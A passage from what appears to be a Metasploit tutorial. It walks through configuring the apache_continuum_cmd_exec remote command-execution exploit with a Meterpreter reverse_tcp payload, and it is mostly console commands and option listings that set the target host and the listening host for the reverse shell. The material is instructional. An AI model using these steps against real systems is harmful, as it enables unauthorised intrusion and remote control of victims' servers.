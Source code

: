 Now, let's check the selected payload options:
```
msf exploit(apache_continuum_cmd_exec) > options 
```
<pre><code>
Module options (exploit/linux/http/apache_continuum_cmd_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    8080             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host

<b>Payload options (linux/x86/meterpreter/reverse_tcp):</b>

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   LHOST                          yes       The listen address
   LPORT         4444             yes       The listen port
...
</code></pre>
We need to set the remote host (`RHOST`) and the local host (`LHOST`) addresses as they are required options:
```
msf exploit(apache_continuum_cmd_exec) > set RHOST 192.168.1.10
```
```
RHOST => 192.168.1.10
```
```
msf exploit(apache_continuum_cmd_exec) > set LHOST 192.168.1.15
```
```
LHOST => 192.168.1.15
```
```
msf exploit(apache_continuum_cmd_exec) > options
```
<pre><code>
Module options (exploit/linux/http/apache_continuum_cmd_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   <b>RHOST    192.168.1.10     yes       The target address</b>
   RPORT    8080             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host
